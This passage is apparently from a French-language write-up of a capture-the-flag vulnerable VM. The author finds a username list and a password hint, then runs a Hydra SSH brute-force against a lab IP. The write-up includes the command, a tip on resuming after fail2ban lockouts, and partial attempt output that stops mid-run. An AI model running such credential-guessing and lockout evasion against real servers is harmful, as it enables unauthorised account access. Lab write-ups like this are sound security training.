 Une analyse rapide via *gdb* montre que le programme ne fait rien de plus qu'un *printf*.  

```plain
$ ./roflmao 
Find address 0x0856BF to proceed
```

Du coup on pointe le navigateur sur */0x0856BF/* où se trouvent deux sous-dossiers.  

Le fichier texte */0x0856BF/good\_luck/which\_one\_lol.txt* semble contenir une liste d'utilisateurs :  

```plain
maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
```

et dans le dossier */0x0856BF/this\_folder\_contains\_the\_password/* on trouve un fichier qui à priori contient le mot de passe :  

![Dossier web tr0ll](https://github.com/devl00p/blog/raw/master/images/troll.png)  

le mot de passe devrait alors être *Good\_job\_:)* Mais évidemment aucun utilisateur n'accepte ce mot de passe.  

Une fois de plus on cherche un second sens et on se dit que le mot de passe doit être un mot présent dans la page.  

Ainsi le mot de passe s'est révélé être *Pass.txt*.  

J'ai rencontré quelques difficultés pour casser le mot de passe car *Hydra* semble avoir un bug dans la gestion du délai (option *-W*) entre deux connexions quand il s'agit d'un brute-force sur SSH. Et comme *fail2ban* est présent sur le système cible c'est vite devenu pénible.  

Heureusement il est possible de reprendre l'attaque via -R après avoir attendu que *fail2ban* nous re-accepte :  

```plain
$ ./hydra -L ../users.txt -P ../pass.txt -V -t 1 -f -W 6 ssh://192.168.1.78
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-08-22 08:06:36
[DATA] max 1 task per 1 server, overall 1 tasks, 10 login tries (l:10/p:1), ~10 tries per task
[DATA] attacking service ssh on port 22
[ATTEMPT] target 192.168.1.78 - login "maleus" - pass "Pass.txt" - 1 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "ps-aux" - pass "Pass.txt" - 2 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "felux" - pass "Pass.txt" - 3 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "Eagle11" - pass "Pass.txt" - 4 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "genphlux" - pass "Pass.txt" - 5 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "usmc8892" - pass "Pass.txt" - 6 of 10 [child 0]
[ATTEMPT] target 192.168.1.78 - login "blawrg" - pass "Pass.txt" - 7 of 10 [child 0]
```